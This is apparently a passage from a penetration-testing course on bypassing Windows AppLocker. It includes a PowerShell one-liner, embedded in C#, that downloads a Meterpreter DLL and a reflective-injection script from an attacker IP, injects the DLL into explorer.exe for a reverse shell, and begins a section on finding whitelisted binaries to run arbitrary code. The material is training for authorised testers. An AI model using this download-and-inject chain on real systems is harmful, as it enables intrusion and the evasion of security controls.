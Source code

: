 First, we'll generate a 64-bit Meterpreter DLL and host it on the Apache server on our Kali machine. We'll also upload the Invoke-ReflectivePEInjection.ps1 script from C:\Tools to the Apache server to simulate the full attack scenario.

Next, we'll modify the _cmd_ variable inside the constrained language mode bypass (the C# application developed in the previous sections). Our goal is to download the Meterpreter DLL into a byte array, determine the process ID of explorer.exe for the DLL injection and download and execute the _Invoke-ReflectivePEInjection_ script. The updated _cmd_ variable is shown in Listing 27.

```
String cmd = "$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/met.dll');(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/Invoke-ReflectivePEInjection.ps1') | IEX; $procid = (Get-Process -Name explorer).Id; Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid";
```

> Listing 27 - Reflectively loading Meterpreter DLL into explorer.exe

Since we pass the script on a single line, we used the ; command terminator to supply multiple commands at once.

When we compile and execute the C# application through InstallUtil, it generates a reverse shell, proving that the unmanaged DLL successfully loaded, bypassing AppLocker's DLL rules.

#### Exercise

1. Repeat the actions in this section to obtain a reverse shell by reflectively loading the Meterpreter DLL.

## 11.4. Bypassing AppLocker with C#

We have successfully bypassed AppLocker's PowerShell restrictions and have executed arbitrary managed C# and PowerShell code through InstallUtil. However, this relies on the existence of a single binary. If InstallUtil was blocked by a deny rule, this technique would fail. Let's improve our tradecraft by building another AppLocker bypass in C#.[1](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5225-1)

In addition to providing an alternative bypass method for C# code execution, this process demonstrates basic techniques which could aid future research. Discovering a bypass is not completely trivial, so we'll divide this process into a number of steps.

1

(Matt Graeber, 2018), [https://posts.specterops.io/arbitrary-unsigned-code-execution-vector-in-microsoft-workflow-compiler-exe-3d9294bc5efb](https://posts.specterops.io/arbitrary-unsigned-code-execution-vector-in-microsoft-workflow-compiler-exe-3d9294bc5efb) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5225-1)

### 11.4.1. Locating a Target

To begin, let's discuss the components of an AppLocker bypass. Our ultimate goal is to execute arbitrary C# code via a whitelisted application, which means our target application must either accept a pre-compiled executable as an argument and load it into memory or compile it itself. In addition, the target application must obviously execute our code.
